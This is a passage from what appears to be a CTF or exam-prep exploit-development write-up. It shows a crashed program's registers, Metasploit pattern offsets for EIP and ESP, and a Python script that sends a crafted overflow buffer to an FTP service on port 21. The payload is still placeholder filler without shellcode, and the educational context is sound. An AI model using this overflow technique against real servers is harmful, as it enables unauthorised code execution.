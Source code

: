If we launch this script, the program crashes with the following register content:

``` txt
EAX 00000000
ECX 0024CF98
EDX 00000031
EBX 336A4132
ESP 00B5FFC0 ASCII "0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al"
EBP 376A4136
ESI 41346A41
EDI 6A41356A
EIP 41386A41
```

For now we're only interested in the offset of `EIP` and `ESP`, and the point at which the `NULL` bytes stop being written; if we need others then we will figure them out later:

``` txt
$ pattern_offset.rb 0Ak1    
[*] Exact match at offset 302
$ pattern_offset.rb 41386A41
[*] Exact match at offset 294
$ pattern_offset.rb 8Ai9
[*] Exact match at offset 266
```

Here we can see that EIP and ESP are actually quite close together. Let's modify our exploit to see if we have our offsets correct (we'll worry about the shellcode start later). The script now looks like this:

``` python
#!/usr/bin/python

import socket

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365
offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

print "[*] Attacking {0}:{1} ...".format(host, port)

command  = ""
command += "A" * (offsets['EIP'] - len(command))
command += "BBBB"
command += "C" * (offsets['ESP'] - len(command))
command += "DDDD"
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux